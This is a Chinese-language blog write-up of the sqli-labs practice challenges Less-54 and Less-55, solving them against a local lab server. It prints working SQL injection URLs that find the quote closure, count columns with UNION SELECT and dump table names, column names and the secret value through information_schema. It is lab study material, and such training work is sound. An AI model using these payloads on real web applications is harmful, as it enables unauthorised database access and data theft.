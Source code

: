 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:     sqli-labs54-65关  # 标题 
subtitle:      #副标题
date:       2020-07-05         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - sqli-labs
  
---
```


## ***Less-54:Challenge-1***

仅给你十次尝试的机会，十次之后会是一个新的随机表名和随机密码

`http://192.168.2.222/sqli-labs-master/Less-54/?id=1`回显

`http://192.168.2.222/sqli-labs-master/Less-54/?id=1' `回显异常

`http://192.168.2.222/sqli-labs-master/Less-54/?id=1' --+`回显正常。

说明单引号闭合。

`http://192.168.2.222/sqli-labs-master/Less-54/?id=-1' union select 1,2 --+`回显异常。

`http://192.168.2.222/sqli-labs-master/Less-54/?id=-1' union select 1,2,3  --+`回显正常，说明有三个字段。

`http://192.168.2.222/sqli-labs-master/Less-54/?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3  --+`爆出表名。

![U9S2FO.png](https://s1.ax1x.com/2020/07/05/U9S2FO.png)

`http://192.168.2.222/sqli-labs-master/Less-54/?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='G46SXENHPN'),3  --+`爆出列名。 id,sessid,secret_3JWP,tryy

`http://192.168.2.222/sqli-labs-master/Less-54/?id=-1' union select 1,(select group_concat(id,0x7e,sessid,0x7e,secret_3JWP,0x7e,tryy) from G46SXENHPN),3  --+` 得到1~a1be7785137eaa954d698e0252e88854~va3oQKLeyQFRqy0z6Bp0hU83~9

## ***Less-55:Challenge-2***

`http://192.168.2.222/sqli-labs-master/Less-55/?id=1`

有14次机会。

![U9pv4O.png](https://s1.ax1x.com/2020/07/05/U9pv4O.png)

单引号和双引号都回显异常

`http://192.168.2.222/sqli-labs-master/Less-55/?id=1) --+`回显正常，说明闭合方式为括号/实际上得尝试很多不才能试出来。
